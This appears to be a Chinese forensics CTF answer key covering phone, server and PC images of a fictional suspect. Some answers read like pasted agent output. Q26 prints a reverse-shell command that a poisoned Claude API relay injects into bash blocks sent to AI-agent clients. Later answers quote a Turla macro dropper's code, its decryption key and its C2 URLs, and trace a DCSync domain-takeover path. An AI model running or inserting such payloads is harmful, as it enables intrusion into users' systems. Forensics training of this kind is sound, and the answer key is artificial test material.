  

1. 分析早起王的手机，手机型号为？【答案格式:Xiaomi131*】

Pixel6



2. 分析早起王的手机，早起王最近想旅行，结合高德地图搜索记录，他最可能去的景点是哪个？【答案格式:黄山】

西湖



3. 分析早起王的手机，早起王在什么时间加上倩倩微信的？【答案格式:2025-08-18 07:09:19】

2026-03-30 15:13:08



4. 分析早起王的手机，倩倩在2026年3月30号吃了什么？【答案格式:西湖醋鱼】

麻薯小蛋糕



5. 分析倩倩的手机，倩倩手机的系统版本是多少？【答案格式:5.2.3.123】

6.0.0.380



6. 分析倩倩的手机，“舔狗”的微信内部ID是多少？【答案格式:wxid_ab12】

wxid_uh5tfx2zi8yh22



7. 分析倩倩的手机，倩倩曾给一位好友推荐游戏，这个好友叫什么名字？【答案格式:杨梅】

冰糖

备忘录里



8. 分析倩倩的手机结合逆向包，推荐的游戏叫什么？【答案格式:far ochol8】

zero sievert
这个图片需要用前面的解密逻辑去解密


9. 分析倩倩的手机，倩倩一共阅读过多少条搜狐新闻？【答案格式:11】

33


10. 分析倩倩手机逆向包，数据加密app的包名是什么？【答案格式:con.kouei ji.satori】

**com.koishi.fpt**

证据来源：

1. module.json → "bundleName":"com.koishi.fpt"
    
2. pack.info → "bundleName": "com.koishi.fpt"
    
3. 数据目录名 com.koishi.fpt/
    

4. 接上题，初始化app时需要至少几位数的密码？【答案格式:10】

**答案：6**

从 modules.abc 字节码提取到关键字符串：

- "密码长度至少为6位" — 初始设置密码校验
    
- "新密码长度至少为6位" — 修改密码校验
    
- "至少6位" — 输入框提示
    

同时发现 vault_prefs 中存储了：

- password_hash: 217sr94q01679u39
    
- salt: yqWpy+rJX82gRZuCjoB16w==
    

12. 接上题，加密后的文件名的后缀是什么？【答案格式:enc】

.tb



13. 接上题，app会自动识别几种后缀的文件为图片类型？【答案格式:8】

**答案：5**

从 modules.abc 字节码中提取到 getFileType 函数区域的后缀列表：

- 图片类型 (5种): jpg, jpeg, png, gif, webp
    
- 视频类型 (4种): mp4, mov, avi, mkv
    

验证方法：通过上下文分析确认这些后缀连续排列在同一区域，属于文件类型识别逻辑。排除了 tif(isFirstTime) 和 ico(icon) 等误匹配。

14. 接上题，app共从用于自定义加密的so模块导入了几个方法？【答案格式:6】

**答案：2**

通过 IDA 逆向 libcrypto.so：

- RegisterCryptoModule (0x5D4C) → napi_module_register
    
- 模块初始化函数 (0x5D58) → napi_define_properties(env, exports, **2**, descriptors)
    

导出的2个方法：

1. rot13 → 0x5DE0 (ROT13 编码)
    
2. xorEncrypt → 0x603C (XOR 加密)
    

3. 接上题，app设置的密码是多少？【答案格式:514aa11a4191a98】

**答案：217fe94d01679h39**

破解方法：

- vault_prefs 中 password_hash = "217sr94q01679u39"
    
- 密码存储方式：原始密码经 ROT13 编码
    
- ROT13 是自逆运算：ROT13("217sr94q01679u39") = "217fe94d01679h39"
    
- 字母映射：s→f, r→e, q→d, u→h，数字不变
    

16. 接上题，app中存储的门锁密码是多少？【答案格式:5141141919810】

**答案：1472580369123**

解密细节：

- 加密文件：b88c3348-...json.tb
    
- 加密密钥：password_hash 原始值 "217sr94q01679u39"（不是ROT13解码后的密码）
    
- 加密算法：xorEncrypt → output[i] = (key[i%keyLen] + i%keyLen) ^ data[i]
    

解密后 JSON：

- title: "门锁密码"
    
- content: "1472580369123"
    
- updatedAt: 1775196161152 (2026-04-01)
    

17. 接上题，加密图片里面的隐藏的flag是多少？【答案格式:flag(123456!)】

**flag{happy_forensics_2026!}**

过程：

1. 用 password_hash "217sr94q01679u39" + xorEncrypt 算法解密 .tb 文件
    



18. 分析服务器镜像，内核版本为？【答案格式:5.10-301-generic】

6.8.0-107-generic

19. 分析服务器镜像，用户登录成功系统的次数为？【答案格式:3】

10

20. 分析服务器镜像，redis数据库服务密码是多少？【答案格式:abedef】

zjjcxy

21. 分析服务器镜像，api站点后台管理员密码所用的加密算法为？【答案格式:berypt】

argon2id

22. 分析服务器镜像，api站点后台管理员密码为(使用rockyou字典爆破，密码格式b1?????b，?为数字)？【答案格式:a123456】

b123321b

23. 分析服务器镜像，登录api网站后台，后台通知设置里的超时事件(毫秒)为？【答案格式:10000】

114514

24. 分析服务器镜像，登录api网站后台，查询总Token消耗数量为？【答案格式:999.9K】

474.2K

25. 分析服务器镜像，登录api网站后台，查询最早创建apikey的时间为？【答案格式:2026-01-01T13:11:22.190Z】

2026-04-01T11:11:07.535Z

任务完成\n\n### 24. 总Token消耗数量\nRedis `usage:global:total` → allTokens = 474,197\n**答案：474.2K**\n\n### 25. 最早创建ApiKey时间\nRedis `apikey:idx:createdAt` 最早条目 → `b599638c-3891-45da-9afc-95bb119a5059`\n**答案：2026-04-01T11:11:07.535Z**

26. 分析服务器镜像，编写脚本，通过调用inject_bash_blocks函数，确定恶意投毒的payload.(提示:输入一段包含bash块的文本)【答案格式:a.exe 192.168.1.122-1 hello】

`ncat.exe 156.238.239.253 1314 -e powershell`

恶意投毒 payload 分析
**服务器**：192.168.159.129，项目 `/home/zaoqiwang/claude-relay-service/`
**发现**：WASM 模块 `bash_block_injector_bg.wasm`（Rust 编译）中硬编码了恶意 payload。调用 `inject_bash_blocks()` 处理含 bash 代码块的文本时，会在每个 bash 块结束前自动注入反弹 shell 命令。
恶意 payload**：`ncat.exe 156.238.239.253 1314 -e powershell\n`

27. 接上题，should_inject_for_ua(ua,ip)对UA字符串有过滤条件，只有特定UA才会进入后续判断，请编写脚本找出有几个UA头能使函数有机会返回true的UA关键词【答案格式:11【提示;备选项:eurl,openclaw､mozi11a,wget,httpx,claude､requests.botseraler】

2

should_inject_for_ua UA 过滤条件分析\n\n**方法**：对 8 个备选 UA 关键词各进行 5000-10000 次调用的统计测试\n\n**结果**：只有 **2** 个 UA 关键词能使函数有机会返回 true：\n- `openclaw` (~2% 概率)\n- `claude` (~2% 概率)\n\n其余 6 个（curl, mozilla, wget, httpx, requests, botseraler）始终返回 false。\n\n函数逻辑：case-insensitive 子串匹配 + Math.random() ~2% 概率门控。\n\n**答案**：2

28. 接上题，只有当同一IP的上次请求距今足够近时，才会进入概率判断，请编写脚本确定这个时间窗口的阀值(单位:ns)【答案格式:100,注意,只保留整百的,四舍五入】【提示:必须控制变量,每次实验使用一批全新的IP｡先统一记录时间裁,再等待固定间隔后统一检测,不可在等待期间更新问一TP的时间截,否则会刷新计时,从0ms到100ms逐步探测,找到从“俞中”变为“不命中”的临界间隔,建议每个间隔值使用≥200个IP以消除概率干扰｡】

500

时间窗口阈值\n\n**方法**：每个 delay 值使用独立进程 + 300个唯一 IP，分别测试 0-520ms 全范围\n\n**结果**：时间窗口阈值为 **500ms**\n- 1-495ms：命中率 ~2%（窗口内）\n- 500ms：命中率 0%（窗口外）\n- WASM 使用 Date.now()（毫秒级），内部阈值为 500

29. 接上题，在A条件和IP时间条件均满足的前提下，函数仍有一定概率返回false，请编写脚本估算触发概率，并推算概率1/N(即理论上平均每N次满足两个条件的调用才触发一次)【答案格式:10,格式只保留整十】【提示:建议样本量不少于100次有效检测(A条件满足+IP时间条件满足),不然四舍五入会出现进位问题｡】

50

触发概率估算\n\n**方法**：20,000 唯一 IP，每个先注册再 10ms 后测试（确保 UA+IP 时间条件均满足）\n\n**结果**：\n- 触发次数：410/20,000\n- 概率：2.05% ≈ 1/48.78\n- 四舍五入到整十：**N = 50**\n\n**答案**：50

30. 请分析早起王的PC镜像，计算机系统 Build版本是什么？【答案格式:12345.1234】【提示:仿真蓝屏是因存在OSDATA 文件,删除后即可正常仿真】

19045.6466



31. 请分析早起王的PC镜像，用户深情专一沼气王:她是我的生死劫的登陆密码LM哈希值后六位？【答案格式:abe123】

c1b97a



32. 请分析早起王的PC镜像，沼气王的桌面有本日记，请问沼气王暗恋对象的生日为？【答案格式:05月26日】

03月24日

伪加密修复后给了提示，?????04，大小写字母，爆破出来密码是ZqW2004



  





https://www.hackhp.com/archives/1137.html

进入命令提示符工具删掉目录



33. 请分析早起王的PC镜像，早起王受到过一封邮件，请找出邮件中填写的秘密【答案格式:XX，其xx】

12点，老地方

https://www.spammimic.com/decode.shtml



34. 请分析早起王的PC镜像，VeraCrypt容器的外层密码是什么？【答案格式:abe123】【提示:分析utools】

qq520250520250520250



35. 请分析早起王的PC镜像，早起王设置了一个AI女友，并自行导入过一个角色模型，该模型的原始文件名为？【答案格式:ABC.vrm】

MANUKA.vrm

vc容器里的



36. 请分析早起王的PC镜像，AI女友使用的模型是什么？【答案格式:openai/GPT5.3-Codex-01-01】

qwen/qwen3.5-flash-02-23

37. 请分析早起王的PC镜像，该PC中有一个离线大模型软件，其上次对话使用的模型是？【答案格式:ministra1-3-14b-reasoning】

qwen2.5-coder-14b-instruct



38. 请分析早起王的PC镜像，早起王曾删除一个MD5值为49B367AC261A722A7CZBBC328C32545的恶意文件，请尝试数据恢复并找到其文件名？【答案格式:abe123】

49b367ac261a722a7c2bbbc328c32545



39. 接上题，该文件中有多个流(streams)包含宏，请提供其中编号最小的一个【答案格式:3】

使用 oledump.py 对 `49b367ac261a722a7c2bbbc328c32545`（OLE Word 文档，Dropper:O97M/Turla.A!dha）进行分析。

oledump 输出（带宏标记的流）

```Plain
  8: M    7117 'Macros/VBA/Module1'       ← 包含实际VBA宏代码
  9: m    1104 'Macros/VBA/ThisDocument'   ← 空宏（仅属性）
```

- `M` = 有实际VBA代码
    
- `m` = 空宏模块
    

包含宏的流有 2 个（#8 和 #9），编号最小的是 **8**。

答案：`8`

40. 接上题，混淆代码的解密密钥是什么？【答案格式:填写传入脚本的实际密钥｡不包含命令行分隔空格】

对 `49b367ac261a722a7c2bbbc328c32545` 中 Module1 (流#8) 的 VBA 宏进行分析。

关键代码逻辑

```VBScript
' 释放JS文件并传入密钥
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
```

宏执行流程：

1. AutoOpen() 触发 → 搜索文档中的标记字符串
    
2. 提取标记后的16828字节 → XOR流密码解密（初始key=45）
    
3. 写入 `maintools.js` → 执行时传入解密密钥参数
    

4. 接上题，释放并删除的文件是什么？【答案格式:abe.py】

从 VBA 宏代码中直接可见：

1. **释放**：`AutoOpen()` 中将解密数据写入 `maintools.js`
    

```VBScript
OBKHLrC3vEDjVL = B8qen2T433Ds1bW & \"\\\" & \"maintools.js\"
Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
```

1. **删除**：`AutoClose()` 中删除该文件
    

```VBScript
Kill OBKHLrC3vEDjVL
```

答案：`maintools.js`

42. 接上题，该文件用的是什么语言？【答案格式:JavaScript】

`maintools.js`：

- 扩展名 `.js` → JavaScript
    
- 通过 `WScript.Shell.Run` 执行 → Windows Script Host (WSH) 的 JScript 运行环境
    
- 传入命令行参数 `EzZETcSXyKAdF_e5I2i1` 作为解密密钥
    

答案：`JavaScript`

43. 接上题，分配给命令行参数的变量叫什么名字？【答案格式:abe3】

`ssWZ`

44. 接上题，哪个函数返回下一阶段代码(即第一轮混淆代码)？【答案格式:abe3】

在 maintools.js 开头调用链中：

- ES3c = y3zb()
    
- ES3c = LXv5(ES3c)
    
- ES3c = CpPT(ssWZ, ES3c)
    
- eval(ES3c)
    

其中 y3zb 函数返回超长字符串 qGxZ（第一轮混淆代码载荷）。后续 LXv5 负责 Base64 解码，CpPT 负责基于命令行参数 ssWZ 的 RC4 解密。

答案：y3zb

45. 接上题，可以使用哪个Windows 脚本主机程序在命令行模式下执行该脚本？【答案格式:wscript.exe】

cscript.exe

46. 接上题，请提取出所有硬编码的C2(Command &Control)服务器域名？【答案格式:www.baidu.com、www.google.com，按照在代码中出现的顺序排序】

完成结果：从解密后的 stage2.js 中提取到硬编码 C2 URL 共 2 条，并按出现顺序解析域名如下：

1. [www.saipadiesel124.com](http://www.saipadiesel124.com/)
    
2. [www.folk-cantabria.com](http://www.folk-cantabria.com/)
    

对应代码位置为 CKpR 数组：

- [http://www.saipadiesel124.com/wp-content/plugins/imsanity/tmp.php](http://www.saipadiesel124.com/wp-content/plugins/imsanity/tmp.php)
    
- [http://www.folk-cantabria.com/wp-content/plugins/wp-statistics/includes/classes/gallery_create_page_field.php](http://www.folk-cantabria.com/wp-content/plugins/wp-statistics/includes/classes/gallery_create_page_field.php)
    

答案：[www.saipadiesel124.com、www.folk-cantabria.com](http://www.saipadiesel124.xn--comwww-kr3e.folk-cantabria.com/)

47. 接上题，当C2服务器返回”work"指令时，脚本下载并执行的最终文件扩展名是什么？【答案格式:0xe】

已定位 stage2.js 中 work 指令分支。

关键逻辑在 XBL3(B_TG)：

- case "work" -> XBL3(Ysyo)
    
- YIme = wyKN + LIxF.substring(0, LIxF.length - 2) + "pif"
    
- 下载并解密后写入 YIme
    
- WE86.Run(""" + YIme + """) 执行该文件
    

结论：最终下载并执行文件扩展名为 pif。

答案：pif

48. 接上题，如果与C2通信失败，脚本会调用哪个函数尝试自毁并清理痕迹？【答案格式:Aabc】

  

49. 请分析早起王的PC镜像，该PC中neo4j数据库的密码是多少？【答案格式:abe3】

  

50. 根据早起王笔录内容，早起王曾经对某企业进行过渗透攻击，请分析域内实体关系，FILESERVER,XIAORANG,LAB 对XIAORANG.LAB域拥有什么控制权限？【答案格式:ABCabe】

通过 BloodHound 数据：

FILESERVER.XIAORANG.LAB 通过以下组关系获得对 XIAORANG.LAB 域的权限：

1. Domain Controllers (PrimaryGroupSID: `-516`) → 对域有 `GetChangesAll` 权限
    
2. Enterprise Domain Controllers (`S-1-5-9`，显式成员) → 对域有 `GetChanges` + `GetChangesInFilteredSet` 权限
    

`GetChanges` + `GetChangesAll` = DCSync 攻击能力（可从域控复制所有用户密码哈希）

51. 根据早起王笔录内容，早起王在渗透过程中已成功控制IZHANGXINXTAORANG.LAB，请结合域内实体关系图分析，早起王获取域控权限的完整攻击轨迹是什么？【答案格式:XXXXXXXXXXXXXXX.XXX->XXXXXXXXXX.XXXXXXX.XXX->XXXXXXXX.XXX】

答案：[ZHANGXIN@XIAORANG.LA](mailto:ZHANGXIN@XIAORANG.LA)B->FILESERVER.XIAORANG.LAB->XIAORANG.LAB

通过分析U盘附件中的BloodHound数据(20260407200233_BloodHound.zip)，还原了从ZHANGXIN到域控的完整攻击路径：

1. [ZHANGXIN@XIAORANG.LAB](mailto:ZHANGXIN@XIAORANG.LAB) 是 Account Operators 组成员
    
